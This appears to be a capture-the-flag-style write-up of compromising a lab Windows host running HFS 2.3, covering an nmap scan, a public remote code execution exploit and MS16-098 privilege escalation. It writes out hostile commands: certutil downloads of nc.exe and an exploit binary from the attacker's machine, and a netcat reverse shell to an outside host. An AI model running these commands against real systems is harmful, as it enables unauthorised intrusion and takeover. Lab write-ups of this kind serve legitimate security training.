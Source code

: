 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Sat Jul  9 21:40:08 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.073s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   74.28 ms 10.10.14.1
2   74.34 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul  9 21:42:08 2022 -- 1 IP address (1 host up) scanned in 120.47 seconds
```
\
**Initial Shell Vulnerability Exploited:**\
Since port 80 was open, I got into the main page and could see that it was powered by HttpFileServer (HFS) 2.3:\
<img src="images/optimum/hfs_mainpage.png" alt="hfs_mainpage" width="600" height="400"/> </br>
I found an exploit for this version on [Exploit-DB](https://www.exploit-db.com/exploits/49584) and modified the exploit to my IP Address and port, and it worked: </br>
<img src="images/optimum/initial_shell_poc.png" alt="initial_shell_poc" width="1000" height="400"/> </br>\
**Vulnerability Explanation:**  The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server
(aka HFS or HTTP Fileserver) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via
a %00 sequence in a search action, and the exploit abuses it </br>
**Initial Shell Screenshot:** </br>
<img src="images/optimum/initial_shell_poc2.png" alt="initial_shell_poc2" width="650" height="120"/> </br> </br>
<!--Privilege Escalation:-->
# Privilege Escalation:
I used [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), and copied all of the system information with the Command: ```systeminfo```, saved it into a file on my Kali, and ran the script with the command:
```bash
python2 windows-exploit-suggester.py --database 2022-07-17-mssb.xls
--systeminfo /home/kali/Downloads/boxes/optimum/sysinfo.txt
```
I found out that this machine was vulnerable to MS16-098: </br>
![windows_exploit_suggester](images/optimum/windows_exploit_suggester.png) </br>
**MS16-098:** </br>
The exploit didn't work and my powershell session got stuck, So i tried using netcat, to send myself a proper CMD shell: </br>
**Kali Linux:** </br>
First, I copied the nc.exe binary to my working directory: ```cp /usr/share/windows-binaries/nc.exe . ``` </br>
Second, I hosted a python http server with: ```python -m http.server 80``` and on another window, started a netcat listener: ```nc -nlvp 1234``` </br>
**Windows Target Machine:** </br>
I used certutil to transfer the file from my Kali to the Windows machine:
```bash
certutil -urlcache -split -f "http://10.10.14.3/nc.exe" nc.exe
```
Finally, I ran the netcat with: ```nc.exe 10.10.14.3 4444 -e cmd.exe``` </br> </br>
<img src="images/optimum/netcat_shell.png" alt="netcat_shell" width="700" height="200"/> </br> </br>
Downloaded the MS16-098 Exploit from [Exploit-DB](https://www.exploit-db.com/exploits/41020), And transferred it to the Windows
Machine with certutil: </br>
```bash
certutil -urlcache -split -f "http://10.10.14.3/privesc.exe" privesc.exe
``` 
**Vulnerability Explanation:** The kernel-mode drivers in Microsoft Windows Vista SP2; Windows Server
2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT
8.1; and Windows 10 Gold, 1511, and 1607 allow local users to gain privileges via a crafted application,
aka "Win32k Elevation of Privilege Vulnerability". </br>
**Proof Of Screenshot:** </br>
![privesc_poc](images/optimum/privesc_poc.png)



